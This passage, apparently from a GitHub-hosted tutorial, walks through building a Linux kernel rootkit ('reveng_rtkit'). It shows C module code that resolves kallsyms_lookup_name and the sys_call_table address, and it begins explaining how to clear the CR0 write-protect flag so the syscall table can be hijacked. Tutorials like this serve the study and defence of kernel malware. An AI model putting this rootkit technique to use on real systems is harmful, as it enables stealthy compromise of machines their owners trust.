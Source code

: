 ```c


	        // Storing of address of original `kallsyms_lookup_name` is done. No need of kprobes from now.
	        unregister_kprobe(&kp);

	        // Storing the address of the syscall table
	        syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");

	        if (!syscall_table)
		        return -1;

	        printk(KERN_INFO "[+] reveng_rtkit: Address of kallsyms_lookup_name in kernel memory: 0x%px \n", kallsyms_lookup_name);
	        printk(KERN_INFO "[+] reveng_rtkit: Address of sys_call_table in kernel memory: 0x%px \n", syscall_table);

	        return 0;
        }

        // ========================== Exit Function ====================

        static void __exit rootkit_exit(void)
        {
	        printk(KERN_INFO "[-] reveng_rtkit: Unloaded \n");
	        printk(KERN_INFO "=================================================\n");
        }

        module_init(rootkit_init);
        module_exit(rootkit_exit);


        MODULE_LICENSE("GPL");
        MODULE_AUTHOR("reveng007");
        MODULE_DESCRIPTION("Demo syscall table hijaking");
        MODULE_VERSION("1.0");
```
   #### Output:
   ![](https://github.com/reveng007/reveng_rtkit/blob/main/img/Blog12.png?raw=true)

   Now, we can export both `kallsyms_lookup_name` as well as `sys_call_table`! :wink:. 

   #### Step2: <ins>Disabling the WP(write protection) flag in the control register</ins>.

   Before modifying the `syscall table`, we first need to disable the WP(write protection) flag in the control register (or cr0 reg) in order to make syscall table editable/writable, from read-only mode.

   According to [sysprog21.github.io/lkmpg/#system-calls](https://sysprog21.github.io/lkmpg/#system-calls):\
      _Control register (or cr0 reg) is a processor register that changes or controls the general behavior of the CPU. For x86 architecture, the cr0 register has various control flags that modify the basic operation of the processor. The WP flag in cr0 stands for write protection. Once the WP flag is set, the processor disallows further write attempts to the read-only sections._
